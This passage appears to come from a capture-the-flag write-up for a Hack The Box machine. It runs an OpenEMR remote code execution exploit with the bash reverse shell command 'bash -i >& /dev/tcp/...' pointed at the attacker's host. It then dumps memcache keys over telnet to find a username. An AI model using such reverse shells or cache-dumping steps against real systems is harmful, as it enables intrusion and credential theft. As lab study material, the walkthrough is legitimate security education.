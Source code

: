 We'll grab the python script from Exploit DB and run it with the URL, username, and password, along with our chosen command.

```bash
$ python rce_openemr.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.179/4444 0>&1'
```

In this case, it'll call back to our box with a shell.

![](/assets/img/posts/htb/07-2020-3/foothold.png)

Success, we've gained a foothold. Enumerating the `/etc/passwd` file reveals two users are available, luffy and ash. Enumerating doesn't reveal a lot, but listing the processes reveals that memcache, a cache for data for websites, is running, which may contain some sensitive information that we can use to escalate to another user.

```bash
$ ps -aux
```

A quick search reveals how to dump memcache and [retrieve the keys](https://lzone.de/blog/How-to%20Dump%20Keys%20from%20Memcache) which may prove useful.

To access the memcache, we'll use `telnet`. The port for this is 11211.

```bash
$ telnet localhost 11211
```

[This website](https://lzone.de/cheat-sheet/memcached) has a great cheat-sheet on memcache, but the command we want is `lru_crawler`, which will dump the available keys.

```bash
> lru_crawler metadump all
key=account exp=-1 la=1593896101 cas=31 fetch=no cls=1 size=75
key=file exp=-1 la=1593896101 cas=32 fetch=no cls=1 size=70
key=passwd exp=-1 la=1593896101 cas=33 fetch=no cls=1 size=74
key=user exp=-1 la=1593896101 cas=34 fetch=no cls=1 size=68
END
```

We'll grab the user key, to see if it is anything new.

```bash
> get user
VALUE user 0 5
luffy
END
```
